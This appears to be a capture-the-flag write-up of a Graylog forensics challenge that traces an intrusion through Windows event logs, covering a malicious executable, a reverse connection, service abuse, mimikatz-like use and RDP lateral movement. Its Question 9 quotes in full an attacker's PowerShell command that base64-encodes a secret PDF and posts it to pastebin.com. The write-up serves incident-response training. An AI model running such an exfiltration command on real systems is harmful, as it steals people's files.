 # Graylog

Graylog is a log collection and searching program, like splunk. We're told an attack happened and we need to investigate it.

# Question 1

We're looking for new applications being launched which is `EventID: 1` (Process created). From here we can add the `CommandLine` column to the table and scroll through to look for anything suspicous. We can narrow it down even further by adding `AND UserAccount: minty`.

From here, we find `C:\Users\minty\Downloads\cookie_recipe.exe` which is pretty obviously the malicious file.

# Question 2

We can now use this binary path as a value for `ProcessImage`, which gives us a connection established event to DEFANELF:4444, or in ip form, 192.168.247.175:4444

# Question 3

We can use the same binary path as ParentProcessImage to see all the commands they executed with their initial shell. The first command was `whoami`

# Question 4

Using the same search as before, we can keep scrolling to find a bunch of calls to `sc` which target `webexservice`.

# Question 5

From the previous search, we see the new service is calling `C:\Users\minty\Downloads\cookie_recipe2.exe`. We use this as our new `ParentProcessImage` and see `C:\cookie.exe` with what looks like mimikatz invocation arguments.

# Question 6

We can search for EventID: 4624 (An account was successfully logged on). From here, we can look at the quick values for `SourceHostName` and find `DEFANELF`, the same hostname from question 2. Filtering only events with this `SourceHostName` we see all 14 values are with `AccountName: alabaster`.

# Question 7

We can look for remote desktop logins with `LogonType: 10` and see one with the user account `alabaster`. Since we know this account is compromised, it's safe to assume this is the attacker.

# Question 8

First, we look for connections from the workstation that was RDPed to: `EventID: 3 AND source: elfu-res-wks2`. We can narrow this further by only searching for connections after `2019-11-19 06:04:28` (when the RDP session started), as well as adding `AND UserAccount: alabaster`. 
We see something from `explorer.exe`, which indicates they're using something native to windows, rather than another backdoor/C2.
We can then search again for `EventID: 4624` (Logged in), This time narrowing it down with `SourceHostName: ELFU-RES-WKS2` (Windows capitalises it here for whatever reason). We see a bunch of logins to `alabaster` from the compromised computer, all with LogonType `3` (Network).

# Question 9

Searching for processes created on elfu-res-wks2, We see a powershell process with the following invocation:

```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri https://pastebin.com/post.php -Method POST -Body @{ "submit_hidden" = "submit_hidden"; "paste_code" = $([Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf"))); "paste_format" = "1"; "paste_expire_date" = "N"; "paste_private" = "0"; "paste_name"="cookie recipe" }
```

This means we're reading from `C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf`, which is probably the super secret research.

# Question 10

We can search for messages surrounding the previous and see the Network Connection event, with DestinationIp `104.22.3.84`.